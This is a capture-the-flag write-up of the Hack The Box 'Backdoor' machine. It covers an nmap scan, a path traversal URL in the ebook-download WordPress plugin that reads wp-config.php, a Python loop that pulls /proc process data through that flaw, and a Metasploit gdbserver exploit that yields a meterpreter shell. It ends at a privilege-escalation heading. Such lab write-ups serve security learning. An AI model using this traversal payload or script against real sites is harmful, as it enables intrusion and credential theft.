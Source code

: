 # Backdoor

![Backdoor.png](Backdoor/Backdoor.png)

### 11/20/2021

Default nmap Scan open ports:

```python
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 18:27 -03
Nmap scan report for backdoor.htb (10.10.11.125)
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.52 seconds
```

First contact with the website:

![Untitled](Backdoor/Untitled.png)

Gobuster web directory scan:

![Untitled](Backdoor/Untitled%201.png)

All ports scan:

![Untitled](Backdoor/Untitled%202.png)

Listing wp plugins:

![Untitled](Backdoor/Untitled%203.png)

Vulnerability in the wordpress:

![Untitled](Backdoor/Untitled%204.png)

Vulnerability command to path traversal:

```python
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

WP database user and password:

![Untitled](Backdoor/Untitled%205.png)

Ok to download we must have to increment the size of the LFI and GET the machine files, we can lookup the PORT open in the /proc/id/net/tcp

Like:

In my case, i opened the port 8000, and look the PATH, convert the Hexadecimal to decimal and return the port, with the PID, we can discovery more things about the process. 

![Untitled](Backdoor/Untitled%206.png)

So i make a scrip to get the requests of all process and store it in a file:

```python
import requests

pid = 1337
url  = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/{}/net/tcp"
port = 80

for i in range(2000):
	print("\n\n")
	req =  requests.get(url.format(i))
	print(f"Proccess number: ------ {i} ----- \n\n")
	print(req.text)
```

The next step is grep for the port in hexadecimal, in this case the port 1337.  0539

![Untitled](Backdoor/Untitled%207.png)

Reading more about the return, i note that the output is the same. 

Analyzing more about the sched-debug i think that the open port can be the GDB server

![Untitled](Backdoor/Untitled%208.png)

Ok, i found more options to try return something about the file: so i will get the cmdline

![Untitled](Backdoor/Untitled%209.png)

Yeah, that's it, the running port 1337 is the gdbserver

![Untitled](Backdoor/Untitled%2010.png)

So now we can try search vulnerabilities to exploit the open port;

I found this CVE to explore [https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb_server_exec/](https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb_server_exec/)

Now with the exploit we wait the port open the inject the code:

![Untitled](Backdoor/Untitled%2011.png)

So to the exploit wrok, i change the payload to linux x64 and i got the meterpreter session. 

![Untitled](Backdoor/Untitled%2012.png)

Screens running:

![Untitled](Backdoor/Untitled%2013.png)

Okay searching more about the GNU screens i found a CVE to explore a vulnerability, the current version on the system is:

![Untitled](Backdoor/Untitled%2014.png)

The CVE doesn't works in the machine.

### Privilege Escalation

![Untitled](Backdoor/Untitled%2015.png)
